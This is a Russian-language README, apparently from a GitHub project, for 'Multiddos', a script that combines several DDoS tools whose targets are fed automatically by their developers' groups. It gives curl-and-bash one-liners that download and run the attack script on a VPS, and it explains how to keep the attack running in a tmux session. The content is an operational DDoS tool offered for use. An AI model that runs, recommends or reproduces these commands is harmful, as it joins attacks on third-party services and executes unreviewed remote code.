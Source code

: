 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея состоит в том, чтобы автоматизировать сразу нескольких утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт запускает:
* [auto_bash](https://github.com/Aruiem234/auto_mhddos/tree/main/bash) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* ~~[UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат)~~ (Убрали, не понятна эффективность, а CPU у других утилит забирает очень активно)

Все эти утилиты автоматизированы, то есть автоматически подтягивают новые цели от своих разработчиков.

## Команда для запуска в Linux

```
curl -L tiny.one/multiddos -o md.sh && bash md.sh
```

Скрипт запускает tmux сессию. Если ssh сессия оборвется, то программы не закроются, а будут дальше работать в фоне. После повторного подключения по ssh окно Tmux можно восстановить.

В окне запускается gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использование RAM).
И несколько утилит, перечисленных ранее. 

<details>
  <summary>Версия с матрицей, по просьбам трудящихся</summary>
  
Отличается только наличием cmatrix.
```
curl -s https://raw.githubusercontent.com/KarboDuck/multiddos/main/multiddos_matrix.sh -o multiddos_m.sh && bash multiddos_m.sh
```
![cmatrix](https://user-images.githubusercontent.com/53382906/162016355-5062d73e-16a1-4311-8090-14e24b696304.gif)
  
</details>

## Управление

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет снова подключиться. `Нажмите Ctrl +b и отпустите` `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl +b и отпустите` `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`
